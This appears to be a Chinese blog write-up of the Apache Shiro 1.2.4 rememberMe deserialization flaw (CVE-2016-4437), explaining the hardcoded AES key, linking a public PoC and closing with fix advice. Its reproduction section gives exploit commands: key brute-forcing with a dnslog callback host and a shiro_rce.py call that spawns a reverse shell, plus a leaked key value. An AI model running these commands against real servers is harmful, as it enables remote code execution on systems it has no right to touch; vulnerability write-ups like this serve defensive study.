




# Apache Shiro 1.2.4 反序列化漏洞（CVE-2016-4437） - 大雁 blogs - 博客园

> 原文：[`www.cnblogs.com/dyanbk/p/13276508.html`](https://www.cnblogs.com/dyanbk/p/13276508.html)

## 0x01 简介

Apache Shiro 是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro 框架直观、易用，同时也能提供健壮的安全性。

Apache Shiro 1.2.4 及以前版本中，加密的用户信息序列化后存储在名为 remember-me 的 Cookie 中。攻击者可以使用 Shiro 的默认密钥伪造用户 Cookie，触发 Java 反序列化漏洞，进而在目标机器上执行任意命令。

## 0x02 漏洞影响

只要`rememberMe`的 AES 加密密钥泄露，无论 shiro 是什么版本都会导致反序列化漏洞。

## 0x03 漏洞分析

先看下官网漏洞说明：[`issues.apache.org/jira/browse/SHIRO-550`](https://issues.apache.org/jira/browse/SHIRO-550)

Shiro 提供了记住我（RememberMe）的功能，关闭了浏览器下次再打开时还是能记住你是谁，下次访问时无需再登录即可访问。

Shiro 对 rememberMe 的 cookie 做了加密处理，shiro 在`CookieRememberMeManaer`类中将 cookie 中 rememberMe 字段内容分别进行 序列化、AES 加密、Base64 编码操作。

在识别身份的时候，需要对 Cookie 里的 rememberMe 字段解密。根据加密的顺序，不难知道解密的顺序为：

*   获取 rememberMe cookie
*   base64 decode
*   解密 AES
*   反序列化

但是，AES 加密的密钥 Key 被硬编码在代码里，意味着每个人通过源代码都能拿到 AES 加密的密钥。因此，攻击者构造一个恶意的对象，并且对其序列化，AES 加密，base64 编码后，作为 cookie 的 rememberMe 字段发送。Shiro 将 rememberMe 进行解密并且反序列化，最终造成反序列化漏洞。

## 0x04 漏洞复现




poc：[`github.com/Kit4y/Awesome_shiro`](https://github.com/Kit4y/Awesome_shiro)



### shiro_crack.py 爆破模块

```
python shiro_crack.py  http://192.168.1.109/login.jsp  gzqes6.dnslog.cn 
```


key:kPH.bIxk5D2deZiIxcaaaA

CommonsCollections2

### 修改 shiro-rce.py



### 下载后门




### 监听


### 反弹 shell

```
 python  shiro_rce.py  http://192.168.1.109/login.jsp  "/bin/bash shell" 
```


## 0x05 修复建议

1.  升级 shiro 到 1.2.5 及以上
2.  现在使用的 rememberMe 的 AES 加密密钥泄露，请自己 base64 一个 AES 的密钥，或者利用官方提供的方法生成密钥 org.apache.shiro.crypto.AbstractSymmetricCipherService#generateNewKey()
3.  参考文章：[`blog.csdn.net/jiangbb8686/article/details/100158480`](https://blog.csdn.net/jiangbb8686/article/details/100158480)